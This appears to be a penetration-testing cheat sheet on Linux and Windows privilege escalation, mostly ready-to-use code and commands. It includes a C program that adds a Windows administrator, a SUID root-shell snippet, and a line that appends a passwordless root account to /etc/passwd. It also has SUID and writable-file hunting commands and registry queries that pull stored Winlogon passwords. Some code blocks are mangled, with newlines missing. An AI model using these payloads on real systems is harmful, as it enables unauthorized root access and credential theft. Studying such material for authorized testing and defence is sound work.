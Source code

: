 # **Privilege Escalation**
Privilege escalation means gaining higher levels of access or permissions within a system or network beyond what was initially granted. It involves exploiting vulnerabilities or misconfigurations to elevate privileges from a lower-privileged user or account to gain control over more sensitive resources or execute commands with increased authority.

## **Linux Privilege Escalation**

* sudo -l
* Kernel Exploits
* OS Exploits
* Password reuse (mysql, .bash\_history, 000-default.conf...)
* Known binaries with suid flag and interactive (nmap)
* Custom binaries with suid flag either using other binaries or with command execution
* Writable files owned by root that get executed (cronjobs)
* MySQL as root
* Vulnerable services (chkrootkit, logrotate)
* Writable /etc/passwd
* Readable .bash\_history
* SSH private key
* Listening ports on localhost
* /etc/fstab
* /etc/exports
* /var/mail
* Process as other user (root) executing something you have permissions to modify
* SSH public key + Predictable PRNG
* apt update hooking (Pre-Invoke)
* Capabilities

## **Windows Privilege Escalation**

* Kernel Exploits
* OS Exploits
* Pass The Hash
* Password reuse
* DLL hijacking (Path)
* Vulnerable services
* Writable services binaries path
* Unquoted services
* Listening ports on localhost
* Registry keys

### **Kernel Exploits**

Linux: [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)​

Windows: [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)​

**Windows Add User**

```
#include  /* system, NULL, EXIT_FAILURE */​int main (){  int i;  i=system ("net user   /add && net localgroup administrators  /add");  return 0;}
```

**SUID Change**

```
SUID​Set owner user ID.​int main(void){  setresuid(0, 0, 0);  system("/bin/bash");}​
```

**Privilege Escalation:**
```
#Find Binaries that will execute as the ownerfind / -perm -u=s -type f 2>/dev/null
​#Find binaries that will execute as the groupfind / -perm -g=s -type f 2>/dev/null
​#Find sticky-bit binariesfind / -perm -1000 -type d 2>/dev/null​find / -perm -4000 2>/dev/null​writable by everyonefind / -writable -type f 2>/dev/null​World writeable directoriesfind / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root​World writeable filesfind / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null​Writeable config filesfind /etc/ -writable -type f 2>/dev/null​find / -user root -perm -4000 -exec ls -ld {} \; 2> /dev/null​
```

**Window Exploit Suggester**

```
python2 windows-exploit-suggester.py --database 2017-10-10-mssb.xls --systeminfo ../systeminfo.txt --quietpython windows-exploit-suggester.py –systeminfo systeminfo.txt –database 2018-11-25-mssb.xls
```

**Windows Priv Escalation**

```
AlwaysInstallElevatedCheck if the following registry settings are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"​
```

**Basic Linux Enumeration**

```
Distribution type & kernel versioncat /etc/*release*uname -arpm -q kerneldmesg | grep -i linux​Default writeable directory / folder/tmp/dev/shm​Search for passwordsSearch for password within config.phpgrep -R 'password' config.php​Find possible other writeable directory / folderfind / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;​Service(s) running as root userps aux | grep rootps -ef | grep root​Installed applicationsls -lah /usr/bin/ls -lah /sbin/dpkg -lrpm -qals -lah /var/cache/apt/archivesOls -lah /var/cache/yum/​Scheduled jobscrontab -lls -la /etc/cron*ls -lah /var/spool/cronls -la /etc/ | grep croncat /etc/crontabcat /etc/anacrontab​Find pattern in file:grep -rnw '/etc/passwd' -e 'root'​Sticky bit, SGID, SUID, GUIDSticky bitfind / -perm -1000 -type d 2>/dev/null​SGID (chmod 2000)find / -perm -g=s -type f 2>/dev/null​SUID (chmod 4000)find / -perm -u=s -type f 2>/dev/nullfind /* -user root -perm -4000 -print 2>/dev/null​SUID or GUIDfind / -perm -g=s -o -perm -u=s -type f 2>/dev/null​Add user to /etc/passwd and root groupecho hodor::0:0:root:/root:/bin/bash >> /etc/passwd​
```

## **Reference** ##

- ​[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)​